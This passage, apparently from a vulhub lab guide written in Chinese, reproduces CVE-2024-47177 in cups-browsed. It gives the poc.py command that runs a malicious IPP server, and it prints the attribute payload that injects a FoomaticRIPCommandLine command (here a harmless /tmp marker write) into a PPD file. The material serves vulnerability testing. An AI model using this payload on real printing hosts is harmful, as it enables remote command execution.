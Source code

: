 ## 漏洞复现

首先，下载 [evil-ipp-server](https://github.com/vulhub/evil-ipp-server) 项目并运行 [poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [your-ip]
```

例如：

```
# [evil-ipp-server-ip] 172.17.0.1
# [your-ip] 192.168.240.2 

python poc.py 172.17.0.1 192.168.240.2 
```

这个脚本会在 `[evil-ipp-server-ip]` 上启动一个恶意的 IPP 服务器，并向目标机器 `[your-ip]` 上的 Cups-Browsed 服务发送一个 UDP 数据包。

一旦 Cups-Browsed 接收到请求，它将尝试连接到恶意的 IPP 服务器并收到恶意的 `printer-privacy-policy-uri` 属性，该属性中包含恶意 payload，其结构如下：

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

然后，Cups-Browsed 会在 `/tmp/` 目录下创建一个临时 PPD 文件，我们的 payload 会被注入到这个文件中。下图是相关的 Cups-Browsed 日志：

![](images/OpenPrinting%20Cups-Browsed%20PDD%20FoomaticRIPCommandLine%20参数导致远程命令执行漏洞%20CVE-2024-47177/image-20241008115116939.png)
